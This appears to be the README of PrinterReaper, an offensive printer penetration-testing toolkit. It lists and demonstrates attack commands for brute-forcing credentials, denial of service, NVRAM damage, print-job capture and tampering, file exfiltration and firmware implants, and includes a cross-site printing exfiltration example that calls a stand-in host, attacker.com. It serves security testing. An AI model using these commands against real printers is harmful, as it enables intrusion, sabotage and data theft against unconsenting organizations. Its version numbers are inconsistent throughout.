

# PrinterReaper v3.4.0 - *Complete Printer Penetration Testing Toolkit*

**Is your printer safe from the void? Find out before someone else does…**

PrinterReaper v3.0.0 is the **most complete printer penetration testing toolkit** available, with support for **all three major printer languages** (PJL, PostScript, PCL) and **four network protocols** (RAW, LPD, IPP, SMB). Test, exploit, and secure network printers with 109 commands across 7 categories.

> **TL;DR:** PrinterReaper is your complete toolkit for discovering and exploiting printer vulnerabilities. **Connect. Scan. Exploit. Exfiltrate. Repeat.**

> **Official Website**: [www.uniaogeek.com.br/printer-reaper](https://www.uniaogeek.com.br/printer-reaper/)

---

## What's New in v3.4.1

- **`--bruteforce`** — brute-force login against HTTP/HTTPS web interface, FTP, SNMP community strings, Telnet using vendor-specific default credentials
- **`--bf-serial <SERIAL>`** — device serial number used as password (EPSON, HP and others use serial as default); auto-detected from `--scan` when available
- **`--bf-mac <MAC>`** — MAC address used for OKI (last 6 digits), Brother, Kyocera KR2 default passwords
- **`--bf-vendor <VENDOR>`** — override vendor for credential selection; auto-detected from fingerprint
- **`--bf-cred USER:PASS`** — add custom credential pairs (repeatable)
- **`--bf-no-variations`** — disable variation generation (faster)
- **`--bf-delay <SECS>`** — configurable delay between attempts (default 0.3s, increase to avoid lockouts)
- **Password variation engine** — for each base password generates: normal, reverse, leet (a→@ e→3 i→1 o→0 s→$ t→7 g→9), CamelCase, UPPER, lower, reverse+leet, append `1`/`!`, prepend `1`
- **`src/utils/default_creds.py`** — comprehensive credential database covering 14 vendors: EPSON, HP, Brother, Canon, Ricoh, Xerox, Kyocera, Konica Minolta, Samsung, OKI, Lexmark, Sharp, Toshiba, Panasonic + generic list (~300 unique entries)
- **`src/modules/login_bruteforce.py`** — BF engine with HTTP form+BasicAuth+Digest, FTP, SNMP community, Telnet
- **`--scan` hint** — every scan now shows the BF command with auto-resolved vendor and serial
- **Lab validation** — EPSON L3250 (serial XAABT77481): password `XAABT77481` found in **1 attempt** on first try

## What's New in v3.4.0

- **`xpl/` exploit library** — standalone exploit modules per ExploitDB/CVE entry; each has `metadata.json` + `exploit.py` with `check()` + `run()` interface; 8 exploits shipped (EDB-15631, EDB-17636, EDB-20565, EDB-35151, EDB-45273, EDB-47850, CVE-2019-14308, CVE-2025-26508)
- **`--xpl-list`** — list all available exploits sorted by severity (critical → info), with CVSS score, category, CVE
- **`--xpl-check <ID>`** — non-destructive check if the target is vulnerable to a specific exploit
- **`--xpl-run <ID>`** — execute an exploit in dry-run mode by default; add `--no-dry` for live exploitation
- **`--xpl-update`** — rebuild `xpl/index.json` from loaded exploits (re-scan `xpl/`)
- **`--xpl-fetch <EDB_ID>`** — download a raw exploit file from ExploitDB directly into `xpl/`
- **Exploit auto-matching on `--scan`** — any scan now automatically matches and displays relevant exploits for the detected printer model/vendor/protocol/CVE
- **`xpl/custom/`** — user drop-in directory with `TEMPLATE.py` for creating custom exploits
- **`src/utils/exploit_manager.py`** — exploit loader, matcher, runner, index builder, ExploitDB downloader

## What's New in v3.3.0

- **`--attack-matrix`** — full structured attack campaign covering every category from Müller et al. 2017 BlackHat paper + 2024-2025 CVEs: DoS (PS infinite loop, showpage redef, PJL offline, NVRAM damage, CVE-2024-51982), Protection Bypass (PJL password, PML DMCMD reset, PS exitserver, SNMP reset), Print Job Manipulation (overlay, capture+retention, list), Information Disclosure (memory, filesystem, credential, CORS spoofing, SNMP MIB)
- **`--network-map`** — complete network map from printer's perspective: SNMP routing/ARP, PJL network vars, web config scraping, full /24 subnet TCP scan, WSD neighbor discovery, attack path generation
- **`--xsp ATTACK_TYPE`** — Cross-Site Printing (XSP) + CORS spoofing payload generator; creates HTML+JS payloads that make a victim's browser attack internal printers without same-origin policy restrictions; types: info, capture, dos, nvram, exfil
- **NVD API key** — now using real NVD API key for more accurate CVE lookups
- **`protocols/network_map.py`** — new module: SNMP network info, PJL network var extraction, web scraping for IPs/MACs, subnet scanner with 60 threads, WSD discovery, attack path analysis
- **`core/attack_orchestrator.py`** — new module: structured campaign runner mapping every cell of the printer attack matrix with per-attack `AttackResult` and `CampaignReport`

## What's New in v3.2.0

- **IPP attack suite** — `protocols/ipp_attacks.py`: endpoint discovery, anonymous job, queue purge, attr manipulation, printer sleep, physical ID (LED flash)
- **SSRF lateral movement** — `protocols/ssrf_pivot.py`: IPP Print-URI SSRF, WSD SOAP SSRF, timing-based port scan, internal host discovery
- **Storage access** — `protocols/storage.py`: FTP (list/download/upload), web enumeration, SNMP MIB dump, saved job retrieval
- **Firmware** — `protocols/firmware.py`: version extraction, upload check, custom payloads (PJL/PS/PCL/ESC/P-R/PWG-Raster), NVRAM read/write, factory reset, persistent config implant

## What's New in v3.1.0

- **`--scan` / `--scan-ml`** — passive reconnaissance mode: banner grabbing (HTTP/IPP/SNMP/PJL/LPD/WSD) + CVE lookup + attack surface assessment, with no payloads sent
- **CVE scanner** — matches printer fingerprint against built-in EPSON/HP/Brother/Xerox/Ricoh CVE DB plus live NVD API lookup; scores exploitability and misconfigurations
- **ML engine (scikit-learn)** — lightweight fingerprinting (< 5 MB model, < 50 MB RAM): predict make/brand from banner, detect language support, rank attack vectors by success probability; no GPU needed
- **Config file** — `config.yaml` (gitignored) for API keys (Shodan, Censys, NVD), ML settings, and network timeouts; also reads env vars
- **Shodan integration** — discovery_online reads key from config.yaml automatically; tested with real EPSON L3250 search

## What's New in v3.0.0

- **IPv4 + IPv6 support** — RAWProtocol now auto-detects and connects over IPv6; all sockets use `AF_UNSPEC` resolution
- **SMB protocol complete** — `protocols/smb.py` fully implemented with pysmb backend (share enumeration, printer discovery, file printing) and smbclient fallback
- **pysnmp multi-version backend** — auto-selects `hlapi-v5` (pysnmp-lextudio ≥5), `hlapi-v7` (pysnmp community ≥7 via asyncio shim), or legacy `oneliner` (pysnmp ≤4)
- **IPP/TLS fallback** — capabilities now automatically retries IPP over HTTPS when HTTP returns 426 (Upgrade Required), enabling detection of printers like EPSON L3250
- **Local printer discovery** — `--discover-local` now shows installed printers on the host (Windows: Get-Printer + IP resolution via DNS/NetBIOS; Linux/macOS: CUPS lpstat) before running SNMP network scan
- **Shodan + Censys integration** — online discovery module fully wired; install API keys via env vars
- **Expanded QA suite** — 63 automated tests covering imports, version, protocols, SMB unit, IPv6 resolution, live printer, Shodan/Censys import
- **Updated dependencies** — pysmb, impacket, censys, pytest, pytest-timeout added to requirements.txt

## Version History

| Version | Date       | Highlights |
|---------|------------|------------|
| 3.3.0   | 2026-03-24 | Attack matrix, network map, XSP/CORS spoofing, NVD key, attack orchestrator |
| 3.2.0   | 2026-03-24 | IPP attacks, SSRF pivot, storage, firmware, persistent implants |
| 3.1.0   | 2026-03-24 | --scan recon, CVE scanner, ML engine, config.yaml, Shodan integration |
| 3.0.0   | 2026-03-24 | IPv6, SMB complete, pysnmp v5/v7, IPP/TLS, local discovery, 63 QA tests |
| 2.5.3   | 2025-10-05 | PRET assets, overlay commands, discovery flags, clean repo |
| 2.5.0   | 2025-09-01 | Cross-platform compatibility (Windows/Linux/macOS/Android) |
- **📚 Help Standardized** - PS/PCL help with categories (PJL-style)
- **🧪 Test Fixtures** - Real PS/PCL test pages for QA validation

---

## Attack Matrix (Full Campaign — BlackHat 2017 + 2024-2025)

```bash
# Run all attack categories (dry-run — probe only, no exploitation)
python src/main.py 192.168.1.10 --attack-matrix

# Live exploit mode (AUTHORIZED LABS ONLY — destructive)
python src/main.py 192.168.1.10 --attack-matrix --no-dry

# Attack matrix + network map in one pass
python src/main.py 192.168.1.10 --attack-matrix --network-map
```

Categories covered by `--attack-matrix`:

| Category | Attack | Protocol | Reference |
|----------|--------|----------|-----------|
| DoS | PS infinite loop `{} loop` | PS/RAW | Müller 2017 |
| DoS | showpage redefinition | PS/exitserver | Müller 2017 |
| DoS | Offline mode | PJL | Müller 2017 |
| DoS | Physical NVRAM damage | PJL DEFAULT | Müller 2017 |
| DoS | FORMLINES crash | PJL | CVE-2024-51982 |
| DoS | IPP queue purge | IPP 0x0012 | RFC 8011 |
| ProtBypass | Password disclosure | PJL INFO VARIABLES | Müller 2017 |
| ProtBypass | Factory reset (HP) | PML DMCMD | Müller 2017 |
| ProtBypass | PS exitserver | PostScript | Müller 2017 |
| ProtBypass | SNMP write reset | SNMP SET | Generic |
| JobManip | Page overlay | PS showpage redef | Advisory 1/6 |
| JobManip | Job capture start | PS exitserver+filter | Advisory 1/6 |
| JobManip | Captured job list | PS capturedict | Advisory 1/6 |
| InfoDisc | PJL memory access | PJL DMINFO | Müller 2017 |
| InfoDisc | Filesystem listing | PS filenameforall | Müller 2017 |
| InfoDisc | Credential files | PS/PJL path traversal | Müller 2017 |
| InfoDisc | CORS spoofing | PS + HTTP headers | XSP research |
| InfoDisc | SNMP MIB dump | SNMP walk | Generic |
| Network | WSD SSRF pivot | IPP/WSD | Custom |

## Network Mapping from Printer Perspective

```bash
# Map everything reachable from the printer's network segment
python src/main.py 192.168.1.10 --network-map
```

Output includes:
- SNMP routing table, ARP cache, interface list
- PJL network variables (IP, gateway, DNS, WINS, NTP)
- Web config page scraping (IPs, MACs, gateway)
- Full /24 subnet scan (60 threads, 18 key ports)
- WSD device discovery
- Attack paths per discovered host

## Cross-Site Printing (XSP) + CORS Spoofing

```bash
# Generate XSP payload — printer info disclosure via victim browser
python src/main.py 192.168.1.10 --xsp info

# Generate job capture malware (embedded in web page)
python src/main.py 192.168.1.10 --xsp capture

# Generate DoS payload for web attacker model
python src/main.py 192.168.1.10 --xsp dos

# With exfil callback URL
python src/main.py 192.168.1.10 --xsp exfil --xsp-callback https://attacker.com/recv
```

XSP payloads create HTML+JavaScript files in `.log/` that:
1. Use `XMLHttpRequest` to send PostScript to port 9100 via victim's browser
2. Use CORS spoofing to bypass same-origin policy and READ printer responses
3. Can capture/exfiltrate print jobs without physical access

## Reconnaissance (passive — no payloads sent)

```bash
# Full banner grab + CVE lookup + attack surface assessment
python src/main.py 192.168.0.152 --scan

# With ML-assisted fingerprinting and attack vector scoring
python src/main.py 192.168.0.152 --scan-ml

# Offline mode — built-in CVE DB only (no NVD API call)
python src/main.py 192.168.0.152 --scan --no-nvd
```

Config file (`config.yaml` — gitignored, copy from `config.yaml.example`):
```yaml
shodan:
  api_key: "YOUR_SHODAN_KEY"
nvd:
  api_key: ""          # optional for higher rate limits
ml:
  enabled: true
```

## ⚡ Quick Start

### Installation

```bash
# Clone repository
git clone https://github.com/mrhenrike/PrinterReaper.git
cd PrinterReaper

# Install dependencies
pip3 install -r requirements.txt

# Verify installation
python3 printer-reaper.py --version
```

### Discover Printers

```bash
# Automatic network discovery (extended help + options)
python3 printer-reaper.py

# Local SNMP discovery
python3 printer-reaper.py --discover-local

# Online discovery (Shodan/Censys)
python3 printer-reaper.py --discover-online

# Output:
Discovered printers:
192.168.1.100    HP LaserJet 4250       uptime=10:21:49    Ready
192.168.1.105    Brother MFC-7860DW    uptime=16:31:17    Sleep
```

### Connect and Exploit

```bash
# Auto-detect best language
python3 printer-reaper.py 192.168.1.100 auto

# Or specify language manually
python3 printer-reaper.py 192.168.1.100 pjl   # PJL mode
python3 printer-reaper.py 192.168.1.100 ps    # PostScript mode
python3 printer-reaper.py 192.168.1.100 pcl   # PCL mode
```

---

## 📋 Features

### Printer Languages (3)

**PJL (Printer Job Language)** - 54 commands
- Complete filesystem access
- NVRAM manipulation
- Job control and capture
- Configuration backup/restore
- Lock/unlock capabilities

**PostScript** - 40 commands
- Dictionary enumeration
- Operator testing (400+ operators)
- Print job manipulation
- Overlay and watermarking
- File system operations

**PCL (Printer Command Language)** - 15 commands
- Virtual filesystem via macros
- Legacy printer support
- Basic control operations

**Total**: **109 commands** across all languages!

---

### Network Protocols (4)

| Protocol | Port | Description |
|----------|------|-------------|
| **RAW** | 9100 | Default (AppSocket/JetDirect) |
| **LPD** | 515 | Line Printer Daemon (legacy) |
| **IPP** | 631 | Internet Printing Protocol (modern) |
| **SMB** | 445/139 | Windows network printing |

---

### Attack Payloads (5)

- **banner.ps** - Print custom banner messages
- **loop.ps** - Infinite loop DoS attack
- **erase.ps** - Erase printed pages
- **storm.ps** - Print storm (resource exhaustion)
- **exfil.ps** - Data exfiltration via printing

---

## 📚 Command Categories

### 📁 Filesystem (19 commands)

```bash
ls, mkdir, find, upload, download, delete, copy, move, touch
chmod, permissions, rmdir, mirror, get, put, cat, edit, append, fuzz
```

### ℹ️ Information (18 commands)

```bash
id, version, devices, uptime, date, pagecount, variables, printenv
network, info, scan_volumes, firmware_info, dicts, dump, known, search
```

### ⚙️ Control (16 commands)

```bash
set, display, offline, restart, reset, selftest, backup, restore
config, formfeed, copies, open, close, timeout, reconnect
```

### 🔒 Security (9 commands)

```bash
lock, unlock, disable, nvram, enumerate_operators, test_file_access
permissions, chmod
```

### 💥 Attacks (16 commands)

```bash
destroy, flood, hold, format, capture, overlay, cross, replace
hang, payload, traverse, dos_display, dos_jobs, dos_connections
exfiltrate, backdoor
```

### 🌐 Network (3 commands)

```bash
direct, execute, load
```

### 📊 Monitoring (3 commands)

```bash
pagecount, status, discover
```

---

## 💻 Usage Examples

### Example 1: Network Discovery

```bash
$ python3 printer-reaper.py

Detected OS: Linux
Found 2 network(s) to scan...
Discovered printers:
192.168.1.100    HP LaserJet 4250
192.168.1.105    Brother MFC-7860DW
```

### Example 2: File Exfiltration (PJL)

```bash
$ python3 printer-reaper.py 192.168.1.100 pjl

192.168.1.100:/> ls /etc
-  834  passwd
-  156  hosts

192.168.1.100:/> download /etc/passwd
Downloaded passwd to ./passwd

192.168.1.100:/> cat /etc/passwd
root:x:0:0:root:/root:/bin/sh
```

### Example 3: Print Job Manipulation (PostScript)

```bash
$ python3 printer-reaper.py 192.168.1.100 ps

192.168.1.100:ps> cross "CONFIDENTIAL - DO NOT DISTRIBUTE"
Text will be added to all printed pages

192.168.1.100:ps> replace "Public" "Top Secret"
Will replace 'Public' with 'Top Secret' in all documents
```

### Example 4: Payload Execution (PostScript)

```bash
192.168.1.100:ps> payload banner PRINTER COMPROMISED
Payload 'banner' executed

192.168.1.100:ps> payload storm 100
Payload 'storm' executed - 100 pages will print
```

### Example 5: Virtual Filesystem (PCL)

```bash
$ python3 printer-reaper.py 192.168.1.100 pcl

192.168.1.100:pcl> put document.txt
Uploaded document.txt as macro 1000

192.168.1.100:pcl> ls
Macro  1000      1024 bytes  document.txt

192.168.1.100:pcl> get 1000
Downloaded macro 1000 to document.txt
```

---

## 🎯 Key Capabilities

### Information Gathering
✅ Identify printer model and firmware  
✅ Extract network configuration  
✅ Dump NVRAM contents  
✅ List environment variables  
✅ Enumerate PostScript operators  

### File System Access
✅ Browse printer's file system  
✅ Download configuration files  
✅ Upload arbitrary files  
✅ Mirror entire filesystem  
✅ Path traversal testing  

### Configuration Control
✅ Change printer settings  
✅ Backup and restore configuration  
✅ Set display messages  
✅ Control print parameters  
✅ Modify page device settings  

### Security Testing
✅ Test authentication bypass  
✅ Verify filesystem restrictions  
✅ Check NVRAM security  
✅ Test buffer overflows  
✅ Path traversal attacks  

### Exploitation
✅ Capture print jobs  
✅ Inject malicious overlays  
✅ Replace text in documents  
✅ Cause denial of service  
✅ Execute attack payloads  
✅ Physical NVRAM damage (with warning)  

---

## 📦 Installation

### Requirements

- Python 3.8 or higher
- Operating System: Linux, Windows, WSL, macOS, or BSD

### Install

```bash
# Clone repository
git clone https://github.com/mrhenrike/PrinterReaper.git
cd PrinterReaper

# Install Python dependencies
pip3 install -r requirements.txt

# Install SNMP tools (optional, for discovery)
# Ubuntu/Debian
sudo apt install snmp

# macOS
brew install net-snmp

# Test installation
python3 printer-reaper.py --version
```

### Dependencies

```
colorama>=0.4.6         # Terminal colors
requests>=2.31.0        # HTTP requests
urllib3>=2.0.0          # HTTP client
pysnmp>=4.4.12          # SNMP discovery (optional)
```

---

## 🔧 Usage

### Command Line

```bash
usage: printer-reaper.py [-h] [-s] [-q] [-d] [-i file] [-o file]
                         [--osint] [--auto-detect] [--version]
                         target {pjl,ps,pcl,auto}

positional arguments:
  target                Printer IP address or hostname
  {pjl,ps,pcl,auto}     Printer language (PJL, PostScript, PCL, or auto)

optional arguments:
  -h, --help            show this help message and exit
  -s, --safe            Verify language support before connecting
  -q, --quiet           Suppress warnings and banner
  -d, --debug           Enter debug mode (show raw traffic)
  -i, --load file       Load and run commands from file
  -o, --log file        Log raw data sent to the target
  --osint               Check target exposure (passive OSINT)
  --auto-detect         Automatically detect supported languages
  --version             Show program version and exit
```

### Examples

```bash
# Network discovery
python3 printer-reaper.py

# Connect with PJL
python3 printer-reaper.py 192.168.1.100 pjl

# Connect with PostScript
python3 printer-reaper.py 192.168.1.100 ps

# Connect with PCL
python3 printer-reaper.py 192.168.1.100 pcl

# Auto-detect language
python3 printer-reaper.py 192.168.1.100 auto

# Safe mode (verify support first)
python3 printer-reaper.py --safe 192.168.1.100 pjl

# Load commands from file
python3 printer-reaper.py -i commands.txt 192.168.1.100 pjl

# Debug mode
python3 printer-reaper.py --debug 192.168.1.100 ps
```

---

## 🎨 Module Comparison

| Feature | PJL | PostScript | PCL |
|---------|-----|------------|-----|
| **Filesystem** | ✅ Full | ✅ Full | ⚠️ Virtual |
| **Commands** | 54 | 40 | 15 |
| **File Upload** | ✅ | ✅ | ✅ |
| **File Download** | ✅ | ✅ | ✅ |
| **Path Traversal** | ✅ | ✅ | ❌ |
| **NVRAM Access** | ✅ | ❌ | ❌ |
| **Job Capture** | ✅ | ✅ | ❌ |
| **Overlays** | ❌ | ✅ | ❌ |
| **Text Replace** | ❌ | ✅ | ❌ |
| **Lock/Unlock** | ✅ | ✅ | ❌ |
| **Best For** | Modern HP/Brother | Advanced attacks | Legacy devices |

**Recommendation**: Use `auto` mode to let PrinterReaper choose!

---

## 🔐 Security Features

### Testing Capabilities

- **Authentication Testing** - Bypass, brute force, default credentials
- **Filesystem Security** - Access control, path traversal, permissions
- **Buffer Overflow Testing** - Flood attacks, input validation
- **Information Disclosure** - Configuration, credentials, NVRAM
- **Print Job Security** - Capture, manipulation, interception
- **Denial of Service** - Resource exhaustion, crashes, hangs

### Attack Vectors

Reference [Hacking Printers Wiki](http://hacking-printers.net) for comprehensive attack taxonomy:
- Denial of Service (transmission, processing, physical)
- Privilege Escalation (factory defaults, accounting bypass)
- Print Job Access (retention, manipulation)
- Information Disclosure (memory, filesystem, credentials)
- Code Execution (buffer overflows, firmware)

---

## 📚 Documentation

### In-Shell Help

Every command has detailed help:

```bash
> help              # List all commands
> help upload       # Detailed help for specific command
```

### GitHub Wiki

Complete documentation at: [PrinterReaper Wiki](https://github.com/mrhenrike/PrinterReaper/wiki)

- [Installation Guide](https://github.com/mrhenrike/PrinterReaper/wiki/Installation)
- [Quick Start](https://github.com/mrhenrike/PrinterReaper/wiki/Quick-Start)
- [Command Reference](https://github.com/mrhenrike/PrinterReaper/wiki/Commands-Reference)
- [PJL Commands](https://github.com/mrhenrike/PrinterReaper/wiki/PJL-Commands)
- [PostScript Commands](https://github.com/mrhenrike/PrinterReaper/wiki/PS-Commands)
- [Security Testing](https://github.com/mrhenrike/PrinterReaper/wiki/Security-Testing)
- [Attack Vectors](https://github.com/mrhenrike/PrinterReaper/wiki/Attack-Vectors)
- [Examples](https://github.com/mrhenrike/PrinterReaper/wiki/Examples)
- [FAQ](https://github.com/mrhenrike/PrinterReaper/wiki/FAQ)

---

## 🏗️ Architecture



---

## 🎓 Typical Workflow

### 1. Discovery

```bash
./printer-reaper.py
```

### 2. Connect

```bash
./printer-reaper.py 192.168.1.100 auto
```

### 3. Reconnaissance

```bash
> id               # Identify printer
> ls               # Browse filesystem
> network          # Get network info
> variables        # List variables
```

### 4. Exploitation

```bash
> download /etc/passwd         # Exfiltrate files
> upload backdoor.ps           # Upload malicious files
> lock 12345                   # Lock control panel
> capture                      # Capture print jobs
```

### 5. Advanced (PostScript)

```bash
> enumerate_operators          # Test 400+ operators
> overlay logo.eps             # Add watermark
> cross "CONFIDENTIAL"         # Add text overlay
> replace "Public" "Secret"    # Replace content
```

---

## ⚠️ Legal Notice

**IMPORTANT**: PrinterReaper is intended **solely for authorized security testing**.

- ✅ Run only against devices you own or have written permission to test
- ❌ Unauthorized use may violate laws and regulations
- ⚖️ The authors disclaim all liability for misuse or damage

**By using PrinterReaper, you accept full responsibility for your actions.**

---

## 🌟 Why PrinterReaper?

### vs PRET (Original)

| Aspect | PRET | PrinterReaper v2.4.0 |
|--------|------|----------------------|
| Languages | 3 | 3 ✅ |
| Protocols | 1 | **4** ✅ |
| PJL Commands | ~40 | **54** (+35%) ✅ |
| PS Commands | ~30 | **40** (+33%) ✅ |
| Documentation | Basic | **Wiki 14 pages** ✅ |
| Help System | 50% | **100%** ✅ |
| Python | 2.7 | **3.10+** ✅ |
| Maintenance | ❌ Discontinued | **✅ Active** |
| OS Support | Linux only | **5 platforms** ✅ |

**Winner**: PrinterReaper in 7 of 9 categories!

---

## 📖 Documentation

### Quick Links

- **[GitHub Wiki](https://github.com/mrhenrike/PrinterReaper/wiki)** - Complete documentation
- **[Installation Guide](wiki/Installation.md)** - Setup instructions
- **[Quick Start](wiki/Quick-Start.md)** - 5-minute tutorial
- **[Commands Reference](wiki/Commands-Reference.md)** - All commands
- **[Examples](wiki/Examples.md)** - Real-world scenarios
- **[FAQ](wiki/FAQ.md)** - Common questions

### In-Shell Help

```bash
> help                    # List all commands
> help <command>          # Detailed help
> help filesystem         # Category help
```

---

## 🔬 Testing & QA

PrinterReaper v2.5.3 has been comprehensively tested:

- ✅ **37 automated tests** - 100% pass rate
- ✅ **All modules tested** - Zero import errors
- ✅ **All protocols validated** - Instantiation successful
- ✅ **All payloads verified** - Template substitution working
- ✅ **operators.py validated** - 371 operators loaded
- ✅ **PRET assets integrated** - Fonts, overlays, MIBs, testpages

### Recent Updates

**v2.5.3** (Oct 2025) - Complete assets, branding, enhanced docs, production-ready  
**v2.5.1** (Oct 2025) - PRET assets, overlay_list, release tools, repo cleanup  
**v2.5.0** (Oct 2025) - Startup UX, discovery flags, fixtures, overlays  
**v2.4.2** (Oct 2025) - HTML Wiki for website deployment  
**v2.4.1** (Oct 2025) - QA tested, 100% pass rate, documentation updates  
**v2.4.0** (Oct 2025) - Complete toolkit: 3 languages, 4 protocols, 5 payloads

---

## 🛠️ Development

### Project Structure

```
PrinterReaper/
├── printer-reaper.py         # Main executable
├── requirements.txt          # Dependencies
├── README.md                 # This file
│
├── src/                      # Source code
│   ├── main.py               # Entry point
│   ├── version.py            # Version info (2.5.0)
│   │
│   ├── core/                 # Core modules
│   │   ├── printer.py        # Base class
│   │   ├── capabilities.py   # Detection
│   │   ├── discovery.py      # SNMP scanning
│   │   └── osdetect.py       # OS detection
│   │
│   ├── modules/              # Language modules
│   │   ├── pjl.py            # PJL (54 commands)
│   │   ├── ps.py             # PostScript (40 commands)
│   │   └── pcl.py            # PCL (15 commands)
│   │
│   ├── protocols/            # Network protocols
│   │   ├── raw.py            # RAW (Port 9100)
│   │   ├── lpd.py            # LPD (Port 515)
│   │   ├── ipp.py            # IPP (Port 631)
│   │   └── smb.py            # SMB (Ports 445/139)
│   │
│   ├── payloads/             # Attack payloads
│   │   ├── banner.ps         # Banner payload
│   │   ├── loop.ps           # DoS loop
│   │   ├── erase.ps          # Page erase
│   │   ├── storm.ps          # Print storm
│   │   └── exfil.ps          # Exfiltration
│   │
│   └── utils/                # Utilities
│       ├── helper.py         # Core utilities
│       ├── codebook.py       # Error codes
│       ├── fuzzer.py         # Fuzzing vectors
│       └── operators.py      # PS operators (400+)
│
├── wiki/                     # GitHub Wiki
└── tests/                    # Test suite
```

---

## 🤝 Contributing

Contributions welcome! Please read [Contributing Guide](wiki/Contributing.md).

---

## 📜 License

PrinterReaper is released under the MIT License.

---

## 📞 Support

- **Official Website**: [www.uniaogeek.com.br/printer-reaper](https://www.uniaogeek.com.br/printer-reaper/)
- **GitHub Issues**: Bug reports and feature requests
- **GitHub Wiki**: Complete documentation
- **Blog**: [www.uniaogeek.com.br/blog](https://www.uniaogeek.com.br/blog)
- **Contact**: X / LinkedIn @mrhenrike

---

## 🙏 Credits

### Based On
- **PRET** - Original printer exploitation tool by [Ruhr-Universität Bochum](http://hacking-printers.net)
- **Hacking Printers Wiki** - Comprehensive printer security knowledge base

### Enhanced With
- Modern Python 3.10+ features
- Complete PostScript and PCL modules
- Multi-protocol support
- Professional documentation
- Attack payload system
- Enterprise-grade error handling

---

## 🌐 References

- [Hacking Printers Wiki](http://hacking-printers.net)
- [HP PJL Technical Reference](http://h10032.www1.hp.com/ctg/Manual/bpl13208.pdf)
- [PostScript Language Reference](https://www.adobe.com/products/postscript/pdfs/PLRM.pdf)
- [RFC 1179 - Line Printer Daemon Protocol](https://tools.ietf.org/html/rfc1179)
- [RFC 2910/2911 - Internet Printing Protocol](https://tools.ietf.org/html/rfc2910)

---

## ⭐ Star History

If you find PrinterReaper useful, please star the repository!

---

<div align="center">

**PrinterReaper v2.5.3**  
*Complete Printer Penetration Testing Toolkit*

**109 Commands | 3 Languages | 4 Protocols | 5 Payloads**

Made with ❤️ for the security community

[Documentation](https://github.com/mrhenrike/PrinterReaper/wiki) | [Issues](https://github.com/mrhenrike/PrinterReaper/issues) | [Releases](https://github.com/mrhenrike/PrinterReaper/releases)

---

### Powered by União Geek

<a href="https://www.uniaogeek.com.br"></a>

**[www.uniaogeek.com.br](https://www.uniaogeek.com.br)** | **[Blog](https://www.uniaogeek.com.br/blog)**

</div>
